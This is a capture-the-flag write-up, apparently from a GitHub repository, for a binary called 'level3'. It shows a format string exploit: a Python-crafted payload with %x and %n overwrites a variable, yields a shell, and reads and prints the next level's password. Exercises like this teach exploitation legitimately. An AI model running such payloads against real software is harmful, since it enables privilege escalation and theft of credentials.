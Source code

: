 If we decompile our executable with `objdump -d level3` where we found a `printf` and a `system('/bin/sh').
With some researchs, we discover 'Format String Exploit', the aim is to use printf to evaluate code instead of printing it :
```bash
./level3 
AAAA %x %x %x %x
AAAA 200 b7fd1ac0 b7ff37d0 41414141
```

Our goal here is to send the adress of `m` in `%x` using `printf` : 
```bash
(python -c "print '\x8c\x98\x04\x08%x%x%x' + 'A' * 41 + '%n'"; cat) | ./level3
?200b7fd1ac0b7ff37d0AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Wait what?!
whoami
level4
cd .. && cat level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```
Address of <m> + PADDING + %n for extract length into <m>


                    